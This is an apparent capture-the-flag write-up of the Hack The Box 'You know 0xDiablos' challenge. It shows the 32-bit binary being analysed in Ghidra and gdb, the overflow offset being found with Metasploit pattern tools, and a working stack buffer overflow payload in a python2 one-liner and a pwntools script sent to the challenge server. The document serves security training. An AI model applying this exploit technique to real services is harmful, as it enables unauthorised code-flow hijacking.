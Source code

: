 # Enumeration

Download file 'You know 0xDiablos.zip' extract file with 7z:

```shell
7z x You\ know\ 0xDiablos.zip                                                                                                       main 

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,16 CPUs x64)

Scanning the drive for archives:
1 file, 3058 bytes (3 KiB)

Extracting archive: You know 0xDiablos.zip
--
Path = You know 0xDiablos.zip
Type = zip
Physical Size = 3058

    
Enter password (will not be echoed):hackthebox
Everything is Ok

Size:       15656
Compressed: 3058
```

Take a look on vuln file extracted:
```shell
file vuln                                                                                                                           main 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
```

To complete this practice it is necessary to understand buffer overflow. Read the following content:

[reto](scripts/follow.md)

Open vuln file with ghidra, check functions and we find flag function with fgets, fgets like others can be overfloaded since var has been defined as char local_50 [64].

```code
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Lets create pattern with 200 chars:

```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Now try buferoverfload to vuln with this string with gdb:
```shell
gdb ./vuln 
GNU gdb (GDB) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run
Starting program: /home/darthv/git/badorius/vulnhub/0xDiablos/enumeration/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x33674132 in ?? ()
(gdb) 

```

Search offset:
```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 33674132 -l 200
[*] Exact match at offset 188
```

Search flag address:
```shell
(gdb) disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:	push   %ebp
   0x080491e3 <+1>:	mov    %esp,%ebp
   0x080491e5 <+3>:	push   %ebx
   0x080491e6 <+4>:	sub    $0x54,%esp
   0x080491e9 <+7>:	call   0x8049120 <__x86.get_pc_thunk.bx>
   0x080491ee <+12>:	add    $0x2e12,%ebx
   0x080491f4 <+18>:	sub    $0x8,%esp
   0x080491f7 <+21>:	lea    -0x1ff8(%ebx),%eax
   0x080491fd <+27>:	push   %eax
   0x080491fe <+28>:	lea    -0x1ff6(%ebx),%eax
   0x08049204 <+34>:	push   %eax
   0x08049205 <+35>:	call   0x80490b0 <fopen@plt>
   0x0804920a <+40>:	add    $0x10,%esp
   0x0804920d <+43>:	mov    %eax,-0xc(%ebp)
   0x08049210 <+46>:	cmpl   $0x0,-0xc(%ebp)
   0x08049214 <+50>:	jne    0x8049232 <flag+80>
   0x08049216 <+52>:	sub    $0xc,%esp
   0x08049219 <+55>:	lea    -0x1fec(%ebx),%eax
   0x0804921f <+61>:	push   %eax
   0x08049220 <+62>:	call   0x8049070 <puts@plt>
   0x08049225 <+67>:	add    $0x10,%esp
   0x08049228 <+70>:	sub    $0xc,%esp
   0x0804922b <+73>:	push   $0x0
   0x0804922d <+75>:	call   0x8049080 <exit@plt>
   0x08049232 <+80>:	sub    $0x4,%esp
   0x08049235 <+83>:	push   -0xc(%ebp)
   0x08049238 <+86>:	push   $0x40
   0x0804923a <+88>:	lea    -0x4c(%ebp),%eax
   0x0804923d <+91>:	push   %eax
   0x0804923e <+92>:	call   0x8049050 <fgets@plt>
   0x08049243 <+97>:	add    $0x10,%esp
   0x08049246 <+100>:	cmpl   $0xdeadbeef,0x8(%ebp)
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmpl   $0xc0ded00d,0xc(%ebp)
   0x08049256 <+116>:	jne    0x804926c <flag+138>
   0x08049258 <+118>:	sub    $0xc,%esp
   0x0804925b <+121>:	lea    -0x4c(%ebp),%eax
   0x0804925e <+124>:	push   %eax
   0x0804925f <+125>:	call   0x8049030 <printf@plt>
   0x08049264 <+130>:	add    $0x10,%esp
   0x08049267 <+133>:	jmp    0x804926d <flag+139>
   0x08049269 <+135>:	nop
   0x0804926a <+136>:	jmp    0x804926d <flag+139>
   0x0804926c <+138>:	nop
   0x0804926d <+139>:	mov    -0x4(%ebp),%ebx
   0x08049270 <+142>:	leave  
   0x08049271 <+143>:	ret    
End of assembler dump.
(gdb) 
```

EBP from flag function is: 0x080491e2 = 08 04 91 e2 = \xe2\x91\x04\x08
Now let's generate A with offset number of chars needed concatenate with flag address:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"' | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAâ
Hurry up and try in on server side.
```

Now try to send to server with nc, but seem doesn't works:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"'|nc 46.101.53.80 31815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```

It's time to play with python, after some research I found python [pwntools](http://docs.pwntools.com/en/latest/). Let's try to run our first python pwn script.
In order to work on server side, we need offset, flag ebp addres, and two parameters  from fu nfunction flag, on ghidra we can get the adresses of both 0xdeadbeef and 0xc0ded00d:
![ghidra parms](IMG/ghidra_parms.jpg)


First run against the vuln file:
```python
from pwn import *

offset = b"A" * 188
fourbytes = b"AAAA"
flag_ebp = p32(0x080491e2, endian="little")
parm_one = p32(0xdeadbeef, endian="little")
parm_two = p32(0xc0ded00d, endian="little")
serverip = "178.62.13.127"
port = 30495

exploit = offset + flag_ebp + fourbytes + parm_one + parm_two

server = remote(serverip, port)
#server = elf.process()
server.sendlineafter(":", exploit)
server.interactive()
```

```shell
python pwn_exploit.py                                                                                             main 
[+] Opening connection to 178.62.13.127 on port 30495: Done
/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/venv/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0\xde
HTB{XXXXXXXXXXXXXXXXXXXXXXX}$       [*] Got EOF while reading in interactive
$  
```

Voilà!!! 
